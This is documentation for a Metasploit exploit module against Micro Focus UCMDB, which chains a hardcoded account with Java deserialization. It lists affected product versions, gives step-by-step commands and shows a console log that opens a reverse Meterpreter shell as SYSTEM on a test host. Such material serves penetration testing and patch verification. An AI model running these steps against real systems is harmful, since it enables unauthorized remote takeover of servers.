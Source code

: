 ## Vulnerable Application

UCMDB is the vulnerable component, which is integrated into many Micro Focus products. MF have confirmed that the following are affected by the hardcoded account vulnerability:

* Operation Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older versions
* Application Performance Management versions: 9.51, 9.50 and 9.40 with uCMDB 10.33 CUP 3
* Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11

An additional number of applications are vulnerable to the Java deserialization. Note that this module leverages both vulnerabilities, so it should only work in the above.

Installation docs are available at:
* https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.

Both Linux and Windows installations are affected.

NOTE: At the time of writing this (24/01/2021), Metasploit ysoserial Linux payloads are broken! Once msf fixes them, everything should work perfectly. 
To test, set payload cmd/generic/unix and enter a single cmd like 'cat'. Run this module and you should see 'cat' being executed as root in the target. Yup, commands with spaces are broken in msf's ysoserial...
Remove this comment once this all works, no changes should be needed to the module's code

All details about these vulnerabilities can be obtained from the advisory:
* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/multi/http/microfocus_ucmdb_unauth_deser`
4. `set rhost TARGET'
5. `set lhost YOUR_IP`
6. `set target 0|1`
7. `run`
8. You should get a shell.

## Scenarios

```
msf6 > use exploit/multi/http/microfocus_ucmdb_unauth_deser
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/microfocus_ucmdb_unauth_deser) > set rhost 10.0.0.100
rhost => 10.0.0.100
msf6 exploit(multi/http/microfocus_ucmdb_unauth_deser) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf6 exploit(multi/http/microfocus_ucmdb_unauth_deser) > check
[+] 10.0.0.100:8443 - The target is vulnerable.
msf6 exploit(multi/http/microfocus_ucmdb_unauth_deser) > run

[*] Started reverse TCP handler on 10.0.0.1:4444
[*] 10.0.0.100:8443 - Attacking Windows target
[+] 10.0.0.100:8443 - Succesfully authenticated and obtained our cookie!
[*] 10.0.0.100:8443 - Sending payload to /services/DataAcquisitionService
[+] 10.0.0.100:8443 - Success, shell incoming!
[*] Sending stage (175174 bytes) to 10.0.0.100
[*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.0.0.100:50733) at 2021-01-24 22:16:36 +0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 15244 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\HPBSM\ucmdb\bin>whoami
whoami
nt authority\system

C:\HPBSM\ucmdb\bin>
```
